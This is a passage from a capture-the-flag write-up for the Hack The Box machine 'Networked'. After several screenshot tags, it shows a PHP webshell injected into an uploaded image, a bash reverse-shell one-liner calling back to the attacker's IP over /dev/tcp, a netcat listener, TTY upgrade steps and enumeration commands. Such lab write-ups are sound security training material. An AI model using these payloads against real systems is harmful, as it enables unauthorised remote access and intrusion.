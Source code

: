 <br />
<img src="{{ site.img_path }}/networked_writeup/Networked_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/networked_writeup/Networked_23.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/networked_writeup/Networked_24.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/networked_writeup/Networked_25.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/networked_writeup/Networked_26.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/networked_writeup/Networked_27.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I'm going to use the system **function**, which I used to execute the first command remotely, to create the **webshell**. This way I start leaking system information remotely after uploading the image with the malicious **PHP** code injected. Before trying to get a **Reverse Shell**, I check the connectivity **from the target to my attacker machine** by sending 2 traces with `ping` and with `tcpdump` I manage to capture the packets, so I can continue. I use a oneliner from **[PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet){:target="_blank"}** to send a **Reverse Shell** and capture the incoming communication with `nc` on port **443**. Once I have achieved access to the system I make my first enumeration commands and also perform a **Console treatment** to have a better mobility in the system with the shell.

```bash
# <?php system($_REQUEST["cmd"]); ?>
# http://10.10.10.146/uploads/10_10_14_3.php.jpeg?cmd=whoami

tcpdump -i tun0 icmp -n
# http://10.10.10.146/uploads/10_10_14_3.php.jpeg?cmd=ping -c 2 10.10.14.3

nc -nlvp 443
# http://10.10.10.146/uploads/10_10_14_3.php.jpeg?cmd=bash -c 'bash -i >%26/dev/tcp/10.10.14.3/443 >%261'
whoami
hostname -I
hostname

which python3
which python
python -c "import pty;pty.spawn('/bin/bash')"
# [Ctrl^z]
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 29 columns 128

uname -a
lsb_release -a
cat /etc/os-release
```
